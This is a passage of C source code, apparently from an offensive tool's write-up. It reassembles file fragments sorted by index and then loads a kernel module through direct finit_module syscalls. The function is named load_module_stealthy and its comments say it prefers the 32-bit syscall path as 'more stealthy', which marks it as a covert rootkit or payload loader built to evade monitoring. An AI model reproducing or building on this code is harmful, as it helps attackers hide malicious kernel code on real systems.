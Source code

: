 ```c
            if (read_bytes != fsize) {
                free(data);
                continue;
            }
            
            fragments[count].data = data;
            fragments[count].size = fsize;
            fragments[count].index = idx;
            count++;
            
            printf("[+] Fragment %d: %s (%ld bytes)\n", idx, entry->d_name, fsize);
        }
    }
    
    closedir(dir);
    *num_fragments = count;
    
    // Sort fragments by index
    for (int i = 0; i < count - 1; i++) {
        for (int j = 0; j < count - i - 1; j++) {
            if (fragments[j].index > fragments[j + 1].index) {
                Fragment temp = fragments[j];
                fragments[j] = fragments[j + 1];
                fragments[j + 1] = temp;
            }
        }
    }
    
    return 0;
}
```

#### Module Loading

```c
static int load_module_stealthy(int fd, const char *params, int flags) {
    printf("[*] Loading module via direct syscall...\n");
    
    // Try 32-bit syscall first (more stealthy)
    long ret = syscall_direct_32(__NR_finit_module, fd, (long)params, flags);
    
    if (ret < 0) {
        // Fallback to 64-bit
        ret = syscall_direct_64(__NR_finit_module, fd, (long)params, flags);
    }
    
    if (ret < 0) {
        fprintf(stderr, "[!] finit_module failed: %s\n", strerror(-ret));
        return -1;
    }
    
    printf("[+] Module loaded successfully!\n");
    return 0;
}
```
